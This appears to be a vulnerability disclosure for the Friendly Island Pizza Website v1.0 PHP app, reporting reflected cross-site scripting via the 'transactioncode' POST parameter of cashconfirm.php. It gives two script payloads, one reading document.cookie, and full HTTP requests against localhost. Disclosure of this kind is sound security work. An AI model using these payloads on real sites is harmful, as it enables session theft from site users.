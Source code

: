 # Friendly Island Pizza Website and Ordering System v1.0 has Cross-site scripting (reflected)

BUG_Author: JiaQi Yang

Website source address：https://www.sourcecodester.com/php/14730/friendly-island-pizza-website-php-mysql.html

Vulnerability File: /FriendlyIsPizzaWebsite/cashconfirm.php

Parameter "transactioncode" (POST), exists XSS vulnerability

Payload1:transactioncode=<script>alert(111)</script>&grandtotal=2&cusid=3

```
POST /FriendlyIsPizzaWebsite/cashconfirm.php HTTP/1.1
Host: localhost
Content-Length: 78
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/FriendlyIsPizzaWebsite/cashconfirm.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

transactioncode=%3Cscript%3Ealert%28111%29%3C%2Fscript%3E&grandtotal=2&cusid=3
```

![image](https://github.com/2889436547/bug_report/blob/main/pictures/xss1.png)

Payload2:transactioncode=<script>alert(document.cookie)</script>&grandtotal=2&cusid=3

```
POST /FriendlyIsPizzaWebsite/cashconfirm.php HTTP/1.1
Host: localhost
Content-Length: 90
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/FriendlyIsPizzaWebsite/cashconfirm.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=updr4q113dildbo75ti98camsc
Connection: close

transactioncode=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&grandtotal=2&cusid=3
```

![image](https://github.com/2889436547/bug_report/blob/main/pictures/xss2.png)
